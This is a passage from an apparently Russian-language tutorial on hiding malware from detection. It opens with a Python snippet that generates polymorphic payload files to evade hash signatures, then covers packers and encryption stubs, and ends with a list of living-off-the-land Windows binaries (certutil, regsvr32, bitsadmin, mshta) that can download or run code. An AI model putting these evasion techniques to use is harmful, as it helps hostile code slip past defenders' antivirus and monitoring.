             # Заполняем шаблон
            payload_code = template_code.format(random_number=number)
            
            # Записываем в новый файл
            with open(filename, "w", encoding='utf-8') as f:
                f.write(payload_code)
            print(f"Сгенерирован полиморфный файл: {filename} с числом {number}")

        # Генерируем несколько версий
        for i in range(3):
            generate_polymorphic_payload(f"poly_payload_v{i+1}.py")
            # os.system(f"python poly_payload_v{i+1}.py") # Для демонстрации запуска
        ```
        При каждом запуске `poly_payload_vX.py` будет иметь немного другой исходный код и, следовательно, другой хэш, что затрудняет простое сигнатурное детектирование.

3.  **Упаковка (Packing) и Шифрование (Encryption)**
    Вредоносный код сжимается (упаковывается) и/или шифруется. Запускаемый файл содержит только небольшой распаковщик/дешифратор (stub), который в памяти восстанавливает и запускает исходный вредоносный код.
    *   **Упаковщики:** Инструменты типа UPX, Themida, VMProtect.
    *   **Шифрование:** Может использоваться как стандартными алгоритмами (AES, RC4), так и кастомными, часто с XOR.

    Статические анализаторы не могут "заглянуть" внутрь упакованного/зашифрованного кода, пока он не будет распакован в памяти.

**Часть 2: Сокрытие в Окружении (Living off the Land – LotL)**

Идея LotL – использовать легитимные, уже существующие в системе инструменты и процессы для вредоносной деятельности. Это делает обнаружение крайне сложным, так как активность маскируется под обычную работу системы.

*   **Распространенные LotL-инструменты (LOLBins/LOLBASs):**
    *   **PowerShell:** Мощнейший инструмент для автоматизации, который может выполнять команды, скачивать файлы, взаимодействовать с WMI и т.д.
    *   **WMI (Windows Management Instrumentation):** Позволяет управлять системой, запускать процессы, собирать информацию.
    *   **Certutil.exe:** Утилита для работы с сертификатами, но может использоваться для скачивания файлов из интернета.
    *   **Regsvr32.exe:** Используется для регистрации DLL, но может выполнять скриптлеты (SCT-файлы).
    *   **Bitsadmin.exe:** Утилита для фоновой передачи файлов.
    *   Планировщик задач (Task Scheduler), `rundll32.exe`, `mshta.exe` и многие другие.

*   **Пример: Запуск PowerShell команды из Python для "легитимного" действия**
    ```python
    import subprocess
    import base64
